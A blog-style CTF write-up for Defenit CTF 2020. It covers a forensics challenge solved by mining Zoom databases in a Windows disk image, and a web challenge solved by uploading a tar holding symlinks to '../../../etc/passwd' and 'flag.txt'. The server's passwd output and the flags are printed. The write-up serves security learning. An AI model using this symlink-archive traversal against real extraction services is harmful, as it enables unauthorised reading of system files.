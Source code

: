 ```yaml
---
title: Defenit CTF 2020 Writeup
published: true
---
```


I played with CTF.SG last weekend and we achieved 10th in the rankings although we didn't even solve a single pwn!

---

# Find Tangential Cipher

#### Category: Forensics | 3 solves | 857 points

We first-blooded this challenge thanks to my teammate Kenneth!

We are given a [Google Drive link](https://drive.google.com/drive/folders/1oQYvJnbOou5TUXaV1ApoQnP6S_Vj8pbI) with 9 files, named `Evidence.E01-8` and `Evidence.E01.txt`. The total file size is about 12 GB, so please check the link (if it is still alive) if  you want to try the question.

From the txt file, we can figure out that it's a physical image of a Windows system.

Opening up the image for browsing, we are greeted with different volumes. 

![Volume Partitions](/assets/defenit-2020/forensics/find-tangential-cipher/vol-partitions.png)

We tried them in order, starting from the first Basic data partition (vol 4) and finding that it's got nothing interesting.

![Volume 4](/assets/defenit-2020/forensics/find-tangential-cipher/vol-4-partition.png)

Moving on to the next basic data partition on vol 7, we find something we're much more acquainted with - the `C:\` Drive Windows Filesystem!

![Volume 7](/assets/defenit-2020/forensics/find-tangential-cipher/vol-7-partition.png)

Browsing around, we started with Appdata, going down the Default (skeleton) user and all the way down to `/User/secre` which seems to be the main user on this machine. We find many files, but nothing too interesting - until we reached the end of Appdata. There was this Zoom database where the `firstName:lastName` of a user was `man:suspect`.

![Zoom-Man-Suspect](/assets/defenit-2020/forensics/find-tangential-cipher/zoom-suspect-man.png)

We knew we were up to something now.

Moving on to the next db in the same folder, we found the message log in the first table of the db. As you can see in the image below, it goes like this:

![Zoom-Tangential-Hint](/assets/defenit-2020/forensics/find-tangential-cipher/zoom-tangential-file.png)

```
Hello
Long Time No See
We're dealing with weapons
I want you to go to the meeting place and get it yourself.
The Tangential Cipher is in the File.
Then, I'll ask you.
```

The next db file only showed the xmpp id, so we skipped that. 

However, going back to the first db in the folder, in the `zoom_mm_file` table, we found a `url` column that looked suspiciously like the `objkey` in a Zoom download link. 

![Zoom-File-ID](/assets/defenit-2020/forensics/find-tangential-cipher/zoom-file-id.png)

Putting that together into a link, we get a file shown below (I think `zfk` is my token so I'm not pasting the link here)

![Zoom-File-Binary](/assets/defenit-2020/forensics/find-tangential-cipher/zoom-file-binary.png)

As the table mentioned that it was a `Secret.docx` file, we use `curl -o flag.docx <URL>` to download it and open it in Microsoft Word.

And we got the flag!

![Flag](/assets/defenit-2020/forensics/find-tangential-cipher/flag.png)


<details>
  <summary>FLAG</summary>
  
  `Mr_K_1_W@nT_Cola!!`
</details>


---

# Tar Analyzer

#### Category: Web | 278 points

#### Description     
Our developer built simple web server for analyzing tar file and extracting online. He said server is super safe. Is it?

#### Server     
http://tar-analyzer.ctf.defenit.kr:8080/

#### Attachments    
[tar-analyzer.tar.gz](//github.com/Isopach/CTF-Writeup/blob/master/Defenit-2020/Web/Tar-Analyzer/tar-analyzer.tar.gz)

------------------------

We found the unintended solution for this.

Using the symbolic link vector, a common zip file unpacking vulnerability, we first tried to read the `/etc/passwd`.

```
ln -s ../../../etc/passwd aaa
tar -cvf test.tar aaa
```

This returns the `/etc/passwd` on the server as follows.

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
analyzer:x:1000:1000:Linux User,,,:/home/analyzer:
```

Hence we tried to guess the filename, starting with the common `flag.txt`.


```
ln -s ../../../flag.txt aaa
tar -cvf test.tar aaa
```

And done! We got the flag just like that.

<details>
  <summary>FLAG</summary>
  
  `Defenit{R4ce_C0nd1710N_74r_5L1P_w17H_Y4ML_Rce!}`
</details>

